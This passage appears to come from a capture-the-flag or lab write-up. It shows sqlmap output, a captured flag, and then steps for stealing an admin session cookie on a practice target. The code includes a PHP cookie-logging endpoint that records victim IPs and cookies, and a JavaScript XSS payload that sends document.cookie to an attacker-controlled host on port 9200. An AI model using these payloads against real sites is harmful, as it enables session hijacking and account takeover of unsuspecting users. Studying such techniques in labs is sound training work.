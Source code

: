```
[06:57:05] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/status.inlanefreight.local'                            

[*] ending @ 06:57:05 /2023-07-23/
```

* ```
  1fbea4df249ac4f4881a5da387eb297cf 
  ```

Steal an admin's session cookie and gain access to the support ticketing queue. Submit the flag value for the "John" user as your answer.

First, create a php file

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

Second, script.js file

```bash
echo "new Image().src='http://10.10.14.5:9200/index.php?c='+document.cookie" > script.js
```

Then start the php server and listen at 9200 port and injecting the script.
